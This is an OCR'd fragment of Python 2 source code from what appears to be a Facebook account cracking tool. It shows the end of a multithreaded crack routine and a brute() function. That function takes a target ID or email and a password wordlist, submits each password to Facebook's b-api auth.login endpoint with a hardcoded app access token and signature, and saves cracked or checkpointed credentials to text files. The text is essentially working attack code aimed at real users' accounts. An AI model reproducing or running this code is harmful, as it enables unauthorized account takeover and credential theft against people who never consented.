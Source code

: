 	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;97m....'
	print "\033[1;32;40m[+] Total OK/\033[1;97mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;97m[\033[1;97mExit\033[1;97m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\033[1;97m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\033[1;97m[+] \033[1;97mID\033[1;97m/\033[1;97mEmail \033[1;97mTarget \033[1;97m:\033[1;97m ')
            passw = raw_input('\033[1;97m[+] \033[1;97mWordlist \033[1;97mext(list.txt) \033[1;97m: \033[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\033[1;97m[\033[1;97m\xe2\x9c\x93\033[1;97m] \033[1;97mTarget \033[1;97m:\033[1;97m ' + email
            print '\033[1;97m[+] \033[1;97mTotal\033[1;97m ' + str(len(total)) + ' \033[1;97mPassword'
            jalan('\033[1;97m[\xe2\x9c\xba] \033[1;97mPlease wait \033[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[1;97m[\033[1;97m\xe2\x9c\xb8\033[1;97m] \033[1;97mTry \033[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\033[1;97m[+] \033[1;97mFounded.'
                        print 52 * '\033[1;97m\xe2\x95\x90'
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\033[1;97m[+] \033[1;97mFounded.'
                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"